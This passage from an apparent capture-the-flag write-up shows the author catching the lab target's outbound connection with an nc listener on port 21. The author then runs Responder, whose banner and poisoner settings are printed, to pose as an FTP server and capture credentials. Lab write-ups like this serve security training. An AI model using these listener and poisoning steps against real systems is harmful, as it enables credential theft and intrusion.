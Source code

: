 And I get a connection at `nc`:

```

root@kali# nc -lnvp 21
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::21
Ncat: Listening on 0.0.0.0:21
Ncat: Connection from 10.10.10.183.
Ncat: Connection from 10.10.10.183:37392.

```

I could send back the strings that an FTP server would send, or I can just run `responder`. I’ll start it and send again in Repeater, and it captures the username and password:

```

root@kali# responder -I tun0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.0.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
```